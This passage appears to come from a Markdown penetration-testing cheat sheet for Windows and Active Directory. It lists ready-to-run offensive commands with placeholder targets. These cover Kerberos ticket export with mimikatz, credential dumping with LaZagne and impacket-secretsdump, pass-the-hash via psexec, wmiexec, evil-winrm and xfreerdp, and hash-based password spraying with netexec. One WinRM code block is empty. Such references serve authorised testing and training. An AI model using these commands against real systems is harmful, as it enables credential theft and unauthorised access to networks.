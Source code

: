kerberos ticket
```
kerberos::list /export
```

* lazagne
```
.\LaZagne.exe all
```

### Pass The Hash
* PS Remoting
- admin user
- create SYSTEM process
```bash
impacket-psexec <domain>/<user>@192.168.1.1 -hashes ":<ntlm>"
```

* Wmi Exec
- admin user
```bash
impacket-wmiexec <domain>/<user>@192.168.1.1 -hashes ":<ntlm>"
```

* Credential Dump
```bash
impacket-secretsdump <domain>/<user>@192.168.1.1 -hashes ":<ntlm>"
```

* WinRM
- Remote Management Users
```cmd
```


### Password Spray
* SMB local auth with hash
```bash
nxc smb <hosts> -d <domain> -u <users> -H <hashes> --local-auth --continue-on-success
```

* CCACHE
```bash
nxc smb <hosts> --use-kcache --kdcHost <dc>
```

### WinRM
with password
```
evil-winrm -i 192.168.1.1 -u <user> -p <password>
```

with hash
```
evil-winrm -i 192.168.1.1 -u <user> -H <ntlm>
```


### RDP
with password
```
xfreerdp /v:192.168.1.1 /u:<domain>\\<user> /p:<password> /cert-ignore
```

with hash
```
xfreerdp /v:192.168.1.1 /u:<domain>\\<user> /pth:<ntlm> /cert-ignore
```